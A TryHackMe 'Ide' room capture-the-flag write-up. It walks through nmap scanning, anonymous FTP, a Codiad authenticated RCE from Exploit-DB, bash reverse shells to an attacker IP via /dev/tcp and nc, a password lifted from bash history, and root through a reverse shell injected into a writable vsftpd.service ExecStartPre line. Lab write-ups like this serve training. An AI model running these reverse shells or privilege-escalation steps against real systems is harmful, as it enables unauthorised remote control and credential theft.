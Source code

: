 ## Ide 

Room link: 

# Scanning 
I ran an aggressive nmap scan to begin. 
```
ajread@aj-ubuntu:~/TryHackMe$ nmap -A 10.10.88.255
Starting Nmap 7.80 ( https://nmap.org ) at 2022-03-14 20:17 EDT
Nmap scan report for 10.10.88.255
Host is up (0.094s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.1.236
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
|_  256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.79 seconds
```
A full nmap scan showed a random high port. 
```
ajread@aj-ubuntu:~/TryHackMe/thm_writeups_publish$ nmap -p- 10.10.252.87
Starting Nmap 7.80 ( https://nmap.org ) at 2022-03-30 18:46 EDT
Nmap scan report for 10.10.252.87
Host is up (0.090s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
62337/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 239.50 seconds
```

# Enumeration 
I first looked into the anonymous ftp login. There was a file called ```-``` nested within a directory or two. 
```
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             151 Jun 18  2021 -
drwxr-xr-x    2 0        0            4096 Jun 18  2021 .
drwxr-xr-x    3 0        114          4096 Jun 18  2021 ..
226 Directory send OK.
ftp> cd ./-
550 Failed to change directory.
ftp> get -
local: ./- remote: -
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for - (151 bytes).
226 Transfer complete.
151 bytes received in 0.00 secs (1.1163 MB/s)
```
The note itself said the following: 
```
Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.
```

# Initial Access
Based on the note, I navigated to the Codiad service running on port 62337 and logged in with credentials ```john:password```. Therefore, I knew that I had correct credentials for the service. I found a RCE on exploitdb: ```https://www.exploit-db.com/exploits/49705``` that requires authentication. The RCE appeared to 

Before running the exploit, it required me to set up a VPS for the connection. So, in one terminal, I set up reverse shell in bash that would pipe to another listener on my machine from the remote connection. 
```
echo 'bash -c "bash -i >/dev/tcp/10.8.1.236/10000 0>&1 2>&1"' | nc -lnvp 9999
```
In another terminal I set up the listener on port 10000 to receive the reverse shell. 
```
ajread@aj-ubuntu:~/TryHackMe$ nc -lnvp 10000
```
After everything was set up, I ran the exploit.
```
ajread@aj-ubuntu:~/TryHackMe/practice$ python3 49705.py http://10.10.252.87:62337/ john password 10.8.1.236 9999 linux
```
And, I received a shell! 
```
ajread@aj-ubuntu:~/TryHackMe$ nc -lnvp 10000
Listening on 0.0.0.0 10000
Connection received on 10.10.252.87 57402
bash: cannot set terminal process group (939): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ide:/var/www/html/codiad/components/filemanager$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
But, I was only the ```www-data``` user. I needed to move to the ```drac``` user in order to see the user flag. 
```
www-data@ide:/home/drac$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
```
After some looking around, I found credentials within user ```drac``` bash history. 
```
www-data@ide:/home/drac$ cat .bash_history
cat .bash_history
mysql -u drac -p 'Th3dRaCULa1sR3aL'
```
I used ssh to log in with the credentials and found the flag! 
```
drac@ide:~$ id
uid=1000(drac) gid=1000(drac) groups=1000(drac),24(cdrom),27(sudo),30(dip),46(plugdev)
drac@ide:~$ wc -c user.txt
33 user.txt
```
# Privilege Escalation 
Using  ```sudo -l``` it looked like I could restart vsftpd as root. 
```
drac@ide:~$ sudo -l
[sudo] password for drac: 
Matching Defaults entries for drac on ide:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User drac may run the following commands on ide:
    (ALL : ALL) /usr/sbin/service vsftpd restart
```
I looked at the ```vsftpd.service``` file and noticed that I had write permissions. Since ```ExecStartPre``` contains additional commands that are run after ```ExecStart```, I added another ```ExecStartPre``` field to execute a reverse shell using bash. (This page was a great resource: ```https://www.freedesktop.org/software/systemd/man/systemd.service.html```.)
```
drac@ide:/lib/systemd/system$ cat vsftpd.service 
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/usr/sbin/vsftpd /etc/vsftpd.conf
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty
ExecStartPre=-/bin/bash -c "bash -i >& /dev/tcp/10.8.1.236/8888 0>&1"

[Install]
WantedBy=multi-user.target
```
I started a listener on my local machine to catch the elevated reverse shell based on the information in ```ExecStartPre```.
```
ajread@aj-ubuntu:~/TryHackMe$ nc -lnvp 8888
```
Then, I had to reload the daemon on the remote machine before restarting vsftpd. 
```
drac@ide:/lib/systemd/system$ systemctl daemon-reload
==== AUTHENTICATING FOR org.freedesktop.systemd1.reload-daemon ===
Authentication is required to reload the systemd state.
Authenticating as: drac
Password: 
==== AUTHENTICATION COMPLETE ===
```
Finally, I was able to restart the service as root on the remote machine. 
```
drac@ide:/lib/systemd/system$ sudo service vsftpd restart 
```
And it called back to my local machine with an elevated shell! 
```
ajread@aj-ubuntu:~/TryHackMe$ nc -lnvp 8888
Listening on 0.0.0.0 8888
Connection received on 10.10.27.26 35294
bash: cannot set terminal process group (1683): Inappropriate ioctl for device
bash: no job control in this shell
root@ide:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ide:/# wc -c /root/root.txt
wc -c /root/root.txt
33 /root/root.txt
```
